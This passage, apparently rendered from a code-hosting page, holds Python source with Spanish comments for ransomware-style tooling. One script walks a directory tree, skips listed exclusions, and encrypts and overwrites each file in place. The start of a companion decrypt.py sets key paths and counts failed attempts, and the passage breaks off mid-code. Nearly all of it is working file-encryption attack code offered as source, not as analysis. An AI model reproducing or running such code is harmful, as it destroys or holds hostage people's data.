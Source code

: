 ```python
    'C:\\Users\\<Username>\\NetworkService'
]

def should_exclude(path):
    for exclusion in exclusions:
        if path.startswith(exclusion):
            return True
    return False

def encrypt_and_overwrite_file(filepath):
    try:
        with open(filepath, 'rb') as file:
            data = file.read()
        
        encrypted_data = cipher.encrypt(data)
        
        with open(filepath, 'wb') as encrypted_file:
            encrypted_file.write(encrypted_data)
    except Exception as e:
        print(f"Error encriptando el archivo {filepath}: {e}")

def encrypt_directory(root_dir):
    for dirpath, dirnames, filenames in os.walk(root_dir):
        if should_exclude(dirpath):
            continue
        for filename in filenames:
            filepath = os.path.join(dirpath, filename)
            encrypt_and_overwrite_file(filepath)

# Ejecutar el encriptado del directorio raíz
encrypt_directory('C:\\enum')

print("Archivos encriptados y sobrescritos en su ubicación original.")
```

#### decrypt.py

```python
import os
import tkinter as tk
from tkinter import simpledialog, messagebox
from cryptography.fernet import Fernet, InvalidToken
from tqdm import tqdm

# Directorio raíz del sistema
root_dir = 'C:\\enum'

# Ruta del archivo de clave
key_path = 'C:\\enum2\\key.key'

# Archivo de intentos fallidos
attempts_path = 'C:\\enum2\\.decrypt_attempts'

# Archivo de registro para `tqdm`
log_file_path = 'C:\\enum2\\decrypt_log.txt'

# Generar una clave interna para cifrar el contador de intentos
internal_key = Fernet.generate_key()
internal_cipher = Fernet(internal_key)

# Leer el número de intentos fallidos
attempts = 0
if os.path.exists(attempts_path):
    with open(attempts_path, 'rb') as attempts_file:
```